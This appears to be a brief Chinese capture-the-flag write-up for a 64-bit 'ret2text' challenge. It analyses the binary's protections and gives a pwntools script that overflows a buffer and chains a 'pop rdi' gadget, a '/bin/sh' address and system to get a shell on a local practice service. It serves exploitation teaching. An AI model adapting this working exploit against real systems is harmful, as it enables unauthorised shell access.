 ```yaml
---
title: ret2text 64
date: 2023/9/23 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO partial  
~~这不是写明了64位~~

## 解题思路

思路跟ret2text 32一致，只要执行`system("/bin/sh")`即可

搜索发现存在`pop rdi; ret;`，只要将字符串弹入rdi后执行system即可  
还要注意栈平衡

## EXPLOIT

```python
from pwn import *
sh = remote("localhost", 42473)
sh.sendline(b'130')
sh.sendline(b'0'*0x58 + p64(0x04011be) + p64(0x0404050) + p64(0x04012b7)) # Addr of pop rdi & /bin/sh & system
sh.interactive()
```

Done.
